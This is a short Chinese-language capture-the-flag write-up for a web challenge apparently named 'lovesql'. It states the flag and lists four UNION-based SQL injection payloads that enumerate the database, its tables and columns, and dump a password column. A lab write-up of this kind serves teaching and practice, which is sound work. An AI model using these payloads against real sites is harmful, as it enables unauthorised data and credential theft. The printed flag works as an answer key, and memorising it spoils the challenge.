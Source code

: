 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{0d11302e-1a43-4a77-b2f0-7a10c33bcfd9}`

## 思路
1. 访问环境，这道题较简单，有回显报错。   
   <img src="./images/lovesql-1.png" style="zoom: 25%;" />
2. 参考[N1BOOK sql](../N1BOOK/[第一章%20web入门]sql注入-1.md),爆出数据库、数据表、字段。  
   - `-1' union select 1,database(),3 -- -`   
   <img src="./images/lovesql-2.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='geek' -- -`   
   <img src="./images/lovesql-3.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='l0ve1ysq1' -- -`   
   <img src="./images/lovesql-4.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(password),3 FROM l0ve1ysq1 -- -`   
   <img src="./images/lovesql-5.png" style="zoom:25%;" />
